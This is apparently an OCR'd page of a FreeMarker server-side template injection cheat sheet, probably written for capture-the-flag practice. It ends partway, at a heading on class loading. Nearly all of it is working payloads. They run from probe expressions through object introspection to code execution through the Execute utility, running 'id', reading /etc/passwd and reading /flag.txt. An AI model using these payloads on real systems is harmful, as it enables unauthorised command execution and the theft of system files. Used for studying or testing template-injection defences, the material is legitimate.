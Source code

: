 ### Basic Expression Evaluation

```
${3*4}
${1+2}
```

### Variable Assignment

```
<#assign test="freemarker">
${test}
```

### Object Introspection

```
${object}
${object?api}
```

### Access to Java Objects

```
${.version}
${.globals}
${.main}
```

### File Operations

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /etc/passwd")}
${new java.io.BufferedReader(new java.io.FileReader("/flag.txt")).readLine()}
```

### Command Execution

```
<#assign cmd="freemarker.template.utility.Execute"?new()>${cmd("id")}
<#assign cmd="freemarker.template.utility.Execute"?new()>${cmd("cat /flag.txt")}
```

## Advanced Techniques

### Using the Built-in Execute Utility

```
<#assign ex = "freemarker.template.utility.Execute"?new()>
${ex("cat /flag.txt")}
```

### Class Loading
